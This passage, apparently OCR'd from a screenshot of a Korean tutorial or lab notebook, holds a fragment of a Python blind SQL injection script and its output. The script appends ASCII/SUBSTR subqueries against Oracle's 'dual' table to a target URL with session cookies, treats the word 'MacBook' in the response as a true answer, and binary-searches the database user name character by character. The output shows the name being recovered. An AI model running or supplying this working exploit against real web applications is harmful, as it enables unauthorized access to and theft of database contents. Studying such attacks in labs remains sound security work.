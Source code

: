         # 쿼리와 성공 여부 출력
        print(f"실행된 쿼리: {query}")

        if 'MacBook' in res.text:  # 성공적인 응답 확인
            found_char = chr(mid)  # 찾은 문자
            user_name += found_char
            print(f"사용자 이름의 {i}번째 문자: {found_char}")
            break
        elif mid < 32 or mid > 126:
            break
        else:
            # 이진 탐색 조정
            attackUrl_low = url + f" and (SELECT ASCII(SUBSTR(user, {i}, 1)) FROM dual) < {mid}"
            res_low = requests.get(attackUrl_low, cookies=cookies)
            if 'MacBook' in res_low.text:
                high = mid - 1  # mid가 너무 크므로 high를 줄임
            else:
                low = mid + 1  # mid가 너무 작으므로 low를 늘림

if user_name:
    print(f"사용자 이름: {user_name}")
else:
    print("사용자 이름을 찾을 수 없습니다.")

--- 결과 ---

사용자 이름의 각 문자를 추출하는 중...
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 1, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 1, 1)) FROM dual) = 103
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 1, 1)) FROM dual) = 91
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 1, 1)) FROM dual) = 85
사용자 이름의 1번째 문자: U
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 103
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 91
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 85
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 82
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 2, 1)) FROM dual) = 83
사용자 이름의 2번째 문자: S
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 55
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 67
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 73
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 70
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 68
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 3, 1)) FROM dual) = 69
사용자 이름의 3번째 문자: E
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 103
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 91
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 85
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 88
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 86
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 4, 1)) FROM dual) = 87
사용자 이름의 4번째 문자: W
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 5, 1)) FROM dual) = 79
사용자 이름의 5번째 문자: O
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 6, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 6, 1)) FROM dual) = 103
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 6, 1)) FROM dual) = 91
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 6, 1)) FROM dual) = 85
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 6, 1)) FROM dual) = 82